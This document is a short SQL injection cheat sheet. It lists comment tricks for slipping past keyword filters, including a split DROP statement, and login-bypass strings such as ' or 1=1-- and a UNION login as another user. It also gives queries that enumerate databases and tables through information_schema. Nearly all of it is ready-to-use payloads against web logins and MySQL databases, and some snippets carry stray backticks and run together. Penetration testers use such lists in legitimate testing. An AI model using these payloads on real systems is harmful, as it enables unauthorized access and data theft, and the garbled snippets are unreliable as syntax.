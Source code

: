 ### Inline comment

=== "/* comment content */"
    ```sql
    DROP/*comment*/sampletable` DR/**/OP/* bypass filtering */sampletable`
    SELECT/* replace spaces */password/**/
    FROM/**/Members
    ```

=== "/*! MYSQL exclusive*/"
    ```sql
    SELECT /*!32302 1/0, */ 1
    FROM tablename
    ```

### String encoding

- `ASCII()`: return the ASCII value of the character
- `CHAR()`: converts an integer to the corresponding character

## Backstage universal password

- `admin' --`
- `admin' #`
- `admin'/*`
- `' or 1=1--`
- `' or 1=1#`
- `' or 1=1/*`
- `') or '1'='1--`
- `') or ('1'='1--`
- Log in as different users `' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--`

## Injection statement memo

### Data storage name

```sql
SELECT database();
SELECT schema_name
FROM information_schema.schemata;
```

### Table Name

=== "union query"
    ```sql
    --version=9 for MySQL 4 and version=10 for MySQL 5
    UNION
    SELECT GROUP_CONCAT(table_name)
    FROM information_schema.tables
    WHERE version = 10; /* Lists the tables in the current database*/
    UNION
    SELECT TABLE_NAME
    FROM information_schema.tables
    WHERE TABLE_SCHEMA = database(); /* Lists tables in all user-defined databases*/
    SELECT table_schema, table_name
    FROM information_schema.tables
    WHERE table_schema!='information_schema' AND table_schema!='mysql';
    ```
